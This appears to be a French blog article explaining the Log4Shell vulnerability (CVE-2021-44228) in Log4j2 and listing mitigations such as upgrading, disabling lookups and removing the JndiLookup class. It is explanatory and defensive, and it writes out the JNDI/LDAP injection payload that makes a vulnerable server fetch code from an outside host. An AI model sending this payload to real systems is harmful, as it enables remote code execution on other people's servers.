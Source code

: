 Author: Eban
Date: 2021/12/11
Title: Log4j, une vulnérabilité d'une ampleur inédite
Summary: Le 9 décembre 2021, la publication d'une vulnérabilité 0 day baptisée Log4Shell (CVE-2021-44228) a ébranlé le petit monde de la sécurité informatique, nous tacherons de comprendre son fonctionnement et comment s'en prémunir dans cet article.
Slug: log4j
Keywords: sécurité

Le 9 décembre 2021, la publication d'une vulnérabilité 0 day baptisée Log4Shell ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)) a ébranlé le monde de la sécurité informatique, nous tacherons de comprendre son fonctionnement et comment s'en prémunir dans cet article.

[Log4j2](https://github.com/apache/logging-log4j2) est une bibliothèque Java permettant de générer... des logs, c'est comme le Port-Salut, c'est écrit dessus 😉. Cette bibliothèque est extrêmement utilisé par de nombreuses entreprises, comme, pour ne citer qu'elles, Apple, Steam, Twitter, Amazon, Tesla ou encore Microsoft. Le problème est qu'une vulnérabilité a été découverte sur ce logiciel. Cette vulnérabilité était passée jusqu'alors inaperçue, le 9 décembre un utilisateur de Github, `wcc526`, interroge l'auteur d'une pull request corrigeant cette faille à propos de celle ci. S'ensuit la publication d'une CVE et d'un Proof Of Concept.

![Message de wcc526 "Is it a security vulnerability"](/static/img/log4j/github.webp)

## 💥 Exploitation 

L'exploitation de cette vulnérabilité est triviale, une simple suite de caractères comme `${jndi:ldap://example.com/a}` permet d'obtenir une RCE (Remote Code Execution) sur le serveur distant.

JNDI est l'acronyme de "Java Naming and Directory Interface", c'est une fonction de Java qui permet d'interroger des directories afin d'obtenir en retour un objet java. Un directory, c'est une sorte de base de donnée principalement utilisée en entreprise qui stocke des informations comme par exemple les utilisateurs, leurs droits, etc. On peut citer ActiveDirectory ou encore [LDAP](https://fr.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol) comme exemple de directory bien connu. Java, à travers JNDI, supporte le directory bien connu LDAP. La syntaxe `jndi:ldap://example.com/a` interroge le serveur LDAP sur le serveur example.com et va télécharger l'objet a.

La syntaxe `${}`indique à Log4j qu'il faut évaluer ce qui est indiqué entre accolades. Par exemple, `${java:version}` renverra la version de java. Ici, `${jndi:ldap://example.com/a}` indique à Log4j d'évaluer (exécuter) l'objet présent à l'URI `ldap://example.com/a`.

Au vu de ces éléments, il est trivial d'obtenir une RCE sur le serveur distant. Il suffit de monter un serveur LDAP malicieux contenant un objet Java vérolé et de faire en sorte que `${jndi:ldap://SERVEUR/OBJET}` soit loggé.

Cette vulnérabilité est très inquiétante au vu de la facilité avec laquelle elle peut être exploitée. À la découverte de cette dernière, de nombreux bots ont scanné l'ensemble d'Internet à la recherche de serveur vulnérables. Le serveur qui héberge le site web que vous visitez en ce moment a été visité par certains d'entre eux.

![De nombreux bots essayent d'envoyer des payload malveillants](/static/img/log4j/vm01.webp)

## 🧑‍🚒 Limiter les dégâts

Il existe plusieurs méthodes afin de mitiger cette faille de sécurité.

La première, la plus évidente, mettre à jour log4j vers la version 2.17.0 et/ou Java vers la version 8u121 (sortie début 2017). ⚠️ Les versions 2.15 et 2.16 sont respectivement vulnérables à une RCE et un attaque DOS ces versions ne sont donc pas à considérer comme sécurisées.    



La seconde, mettre la variable `log4j2.formatMsgNoLookups` à `True`, ceci peut être fait en ajoutant l'argument `‐Dlog4j2.formatMsgNoLookups=True` à la commande permettant de lancer l'application Java. Ceci peut aussi être fait en ajoutant la variable d'environnement Linux `LOG4J_FORMAT_MSG_NO_LOOKUPS`.

La troisième, plus radicale, consiste à enlever purement et simplement la classe `JndiLookup` qui est la cause de cette vulnérabilité. Ceci peut être fait avec la commande `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class` notamment.

Une autre solution plus amusante a été mise en place par Maayan-Sela et cr-mitmit, elle s'appelle `Logout4Shell`, c'est un logiciel en Java qui permet de patcher n'importe quel serveur vulnérable. Le code est disponible [ici](https://github.com/Cybereason/Logout4Shell).

Une autre solution, préventive cette fois, qui aurait pu limiter grandement les dégâts, est de bien cloisonner ses différents services. Ceci peut être fait au moyen de [services systemd renforcés](https://ilearned.eu/systemd-sandboxing.html), ou de technologies de conteneurisation comme Docker.